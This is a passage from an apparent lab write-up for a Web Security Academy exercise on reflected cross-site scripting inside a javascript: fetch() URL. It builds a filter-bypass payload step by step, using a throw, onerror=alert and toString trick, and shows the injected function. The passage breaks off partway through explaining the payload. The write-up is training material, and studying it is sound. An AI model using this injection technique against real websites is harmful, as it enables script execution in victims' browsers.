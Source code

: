 ```
https://LABID.web-security-academy.net/post?postId=1&hello
```

Trying this, we can see that the additional parameter is indeed getting inserted in this fetch function.

![](/assets/images/XSS/Pasted%20image%2020250728011251.png)

The fetch function is URL encoded. It is sending a post request to the backend to retrieve the pages.

```javascript
href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d1%26hello'}).finally(_ => window.location = '/')"
```

After URL decoding for better readability, we can see that our payload is `1&hello` and that we must first escape the method and body parameters which are in the curly brackets and also close the curly brackets with the single quote in the end of our injection point.

```javascript
fetch('/analytics',{method:'post',body:'/post?postId=1&hello'}).finally(_=>window.location='/')"
```

The payload should look something like this:

```javascript
1&'},PAYLOADHERE,{'x':'
```

We can read it better in Markdown below about how we have escaped the method and body parameters and also successfully closed the trailing `'}` with `{'x':'`.

```javascript
fetch('/analytics',{method:'post',body:'/post?postId=1&'},PAYLOADHERE,{'x':''}).finally(_=>window.location='/')"
```

The following payload works (explanation below):

```javascript
1&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{'x':'
```

Final function looks like this:

```javascript
fetch('/analytics',{method:'post',body:'/post?postId=1&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{'x':''}).finally(_=>window.location='/')"
```

Understanding the payload:

1. `1&'},`

Ends the request body with method and body

2. `x=x=>{throw/**/onerror=alert,1337},`

Defines an arrow function assigned to `x`, where the function body immediately throws.
